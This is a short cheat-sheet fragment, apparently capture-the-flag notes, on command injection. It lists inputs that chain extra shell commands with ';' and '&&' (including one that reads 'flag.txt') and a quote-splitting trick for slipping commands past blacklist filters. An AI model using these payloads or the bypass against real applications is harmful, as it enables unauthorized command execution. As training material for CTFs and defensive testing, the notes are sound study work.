 ### Command Injection

---

```py
ls;pwd
123;cat flag.txt
ls;pwd&&ls
```

Filtering

```py
use single or double quotes to bypass blacklists
"w"h"o"am"i"
```
